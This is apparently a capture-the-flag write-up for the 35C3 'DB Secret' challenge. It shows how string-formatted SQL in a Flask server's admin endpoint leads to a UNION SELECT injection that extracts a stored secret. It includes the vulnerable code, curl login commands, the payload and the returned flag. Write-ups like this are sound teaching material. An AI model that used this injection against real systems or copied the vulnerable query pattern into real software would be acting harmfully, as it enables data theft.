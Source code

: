 # Challenge DB Secret

89 Points

## Challenge

To enable secure microservices (or whatever, we don't know yet) over Wee in the future, we created a specific DB_SECRET, only known to us. This token is super important and extremely secret, hence the name. The only way an attacker could get hold of it is to serve good booze to the admins. Pretty sure it's otherwise well protected on our secure server.

http://35.207.132.47/

Difficulty Estimate: Medium

Good coders should learn one new language every year.

InfoSec folks are even used to learn one new language for every new problem they face (YMMV).

If you have not picked up a new challenge in 2018, you're in for a treat.

We took the new and upcoming Wee programming language from paperbots.io. Big shout-out to Mario Zechner (@badlogicgames) at this point.

Some cool Projects can be created in Wee, like: this, this and that.

Since we already know Java, though, we ported the server (Server.java and Paperbots.java) to Python (WIP) and constantly add awesome functionality. Get the new open-sourced server at /pyserver/server.py.

Anything unrelated to the new server is left unchanged from commit dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github (mirrored up to this commit here).

We even added new features to this better server, like server-side Wee evaluation!

To make server-side Wee the language of the future, we already implemented awesome runtime functions. To make sure our VM is 100% safe and secure, there are also assertion functions in server-side Wee that you don't have to be concerned about.


## Solution

In the init_db function of the server.py we see, that the token is saved into the database:

```
def init_db():
    with app.app_context():
        db = get_db()
        with open(MIGRATION_PATH, "r") as f:
            db.cursor().executescript(f.read())
        db.execute("CREATE TABLE `secrets`(`id` INTEGER PRIMARY KEY AUTOINCREMENT, `secret` varchar(255) NOT NULL)")
        db.execute("INSERT INTO secrets(secret) values(?)", (DB_SECRET,))
        db.commit()
```

So the secret token is saved into the database and we need to extract it. There is an interesting function, that not really escapes the given params:
```
@app.route("/api/getprojectsadmin", methods=["POST"])
def getprojectsadmin():
    # ProjectsRequest request = ctx.bodyAsClass(ProjectsRequest.class);
    # ctx.json(paperbots.getProjectsAdmin(ctx.cookie("token"), request.sorting, request.dateOffset));
    name = request.cookies["name"]
    token = request.cookies["token"]
    user, username, email, usertype = user_by_token(token)

    json = request.get_json(force=True)
    offset = json["offset"]
    sorting = json["sorting"]

    if name != "admin":
        raise Exception("InvalidUserName")

    sortings = {
        "newest": "created DESC",
        "oldest": "created ASC",
        "lastmodified": "lastModified DESC"
    }
    sql_sorting = sortings[sorting]

    if not offset:
        offset = datetime.datetime.now()

    return jsonify_projects(query_db(
        "SELECT code, userName, title, public, type, lastModified, created, content FROM projects WHERE created < '{}' "
        "ORDER BY {} LIMIT 10".format(offset, sql_sorting), one=False), username, "admin")
```

So if wwe can send a malicious offset, we can do an SQL injection! So first we need a valid admin login (done already with another challenge):

```
# create login token
root@blackbox:# curl -X POST -d '{"email":"admin"}' http://35.207.132.47/api/login
jossni

# verify login to generate cookie
root@blackbox:# curl -c cookies.txt -b cookies.txt -X POST -d '{"code":"jossni"}' http://35.207.132.47/api/verify
```

Now we can simply try to union select the secret value from the secrets table. A union select must always return the same number of columns as the first select. We can see in the code that the original select returns 8 columns, so we can simply append some static value columns to fix this.

So our offset value will be:
```
' UNION SELECT secret,1,1,1,1,1,1,1 FROM secrets --
```

Final request:
```
root@blackbox:# curl -c cookies.txt -b cookies.txt -X POST -d @payload.txt "http://35.207.132.47/api/getprojectsadmin"
[{"code":"35C3_ALL_THESE_YEARS_AND_WE_STILL_HAVE_INJECTIONS_EVERYWHERE__HOW???","content":1,"created":1,"lastModified":1,"public":1,"title":1,"type":1,"userName":1}]
```

And there we got our token 35C3_ALL_THESE_YEARS_AND_WE_STILL_HAVE_INJECTIONS_EVERYWHERE__HOW???
